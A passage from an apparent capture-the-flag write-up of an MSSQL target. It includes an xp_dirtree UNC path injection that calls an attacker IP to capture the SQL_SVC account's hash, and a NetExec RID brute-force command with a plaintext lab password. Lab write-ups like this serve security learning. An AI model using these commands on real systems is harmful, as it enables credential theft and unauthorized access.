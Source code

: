 And we have a shell!

Now I enumerate every database in the server and did not find anything.

Finally proceeded with the UNC path injection attack.

```sql
xp_dirtree //10.10.14.24//share//nothing 
```

Captured the hash of the **SQL_SVC** user.

![image.png](/assets/images/Redelegate_VL/image%2015.png)

Lets see if we can crack this hash, saving it to a file names sqlsvc.hash

But I wasn’t able to crack it hash.

Now since we have a valid authentication with the NetExec across the SQL server we can also bruteforce the RIDs on the server.

```bash
nxc mssql redelegate.vl --port 49932 -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth --rid-brute
```
